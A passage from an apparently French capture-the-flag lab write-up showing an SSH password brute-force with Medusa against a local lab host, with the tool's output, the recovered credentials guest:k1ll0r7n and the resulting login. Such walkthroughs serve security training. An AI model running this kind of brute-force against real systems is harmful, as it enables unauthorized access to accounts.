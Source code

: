 Le charset choisi, ```mixalpha-numeric-all-space```, correspond aux 95 caractères suivants : ```abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ 0123456789 !@#$%^&*()- _+=~\`[]{}|:;"'<>,.?/``` espace typographique comprise, soit un total de 95 x 95 = 9025 combinaisons possibles. Plutôt que de toutes les tester à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) va automatiser cette [attaque par dictionnaire](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf).

```console
root@blinils:~# medusa -h 192.168.56.101 -u guest -P login.db -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0raa (1 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rab (2 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rac (3 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rad (4 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rae (5 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0raf (6 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rag (7 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rah (8 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rai (9 of 9025 complete)
--snip--
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7k (5616 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7l (5617 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7m (5618 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7n (5619 of 9025 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: guest Password: k1ll0r7n [SUCCESS]
```

Victoire ! Nous pouvons nous connecter au serveur avec les credentials ```guest:k1ll0r7n``` !

```console
root@blinils:~# ssh guest@192.168.56.101
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
guest@192.168.56.101's password: 
Last login: Mon Aug  6 16:25:44 2018 from 192.168.56.102
guest@porteus:~$ 
```
